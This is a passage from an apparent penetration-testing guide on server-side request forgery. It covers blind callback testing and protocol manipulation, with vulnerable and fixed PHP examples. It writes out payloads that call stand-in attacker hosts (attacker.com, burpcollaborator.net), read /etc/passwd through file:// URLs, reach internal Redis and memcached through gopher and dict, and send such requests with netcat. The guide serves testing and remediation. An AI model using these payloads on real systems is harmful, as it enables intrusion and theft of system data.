 **Steps**:
1. Inject blind payloads:
   - Test: `http://burpcollaborator.net`
   - Use cURL:
     ```bash
     curl -i "http://example.com/fetch?url=http://burpcollaborator.net"
     ```
2. Monitor callbacks:
   - Check Burp Collaborator or custom server logs (`nc -l 8080`).
   - Test: `http://attacker.com/log`.
3. Test DNS-based payloads:
   - Try: `http://dnsbin.attacker.com`.
4. Use Burp Collaborator:
   - Generate unique URL and monitor interactions.

**Example Vulnerable Code (PHP)**:
```php
$url = $_GET['url'];
file_get_contents($url);
```
Test: `?url=http://burpcollaborator.net`
Result: Triggers request.

**Example Secure Code (PHP)**:
```php
$url = $_GET['url'];
if (parse_url($url, PHP_URL_HOST) !== 'example.com') die("Invalid URL");
file_get_contents($url);
```
Test: No request.

**Remediation**:
- Validate URLs:
  ```php
  if (!preg_match('/^https?:\/\/example\.com/', $url)) die("Invalid URL");
  ```
- Log requests:
  ```php
  error_log("Fetching URL: $url");
  ```

**Tip**: Save callback evidence in a report.

### 6. Test for Protocol Manipulation

**Objective**: Verify if SSRF allows non-HTTP protocols.

**Steps**:
1. Inject protocol payloads:
   - Test: `file:///etc/passwd`
   - Use Burp:
     ```http
     GET /fetch?url=file:///etc/passwd HTTP/1.1
     Host: example.com
     ```
2. Check responses:
   - Look for file contents or errors.
   - Test: `gopher://localhost:6379/_INFO`.
3. Test other protocols:
   - Try: `ftp://attacker.com`, `dict://localhost:11211/stat`.
4. Use Netcat:
   ```bash
   echo -e "GET /fetch?url=file:///etc/passwd HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
   ```
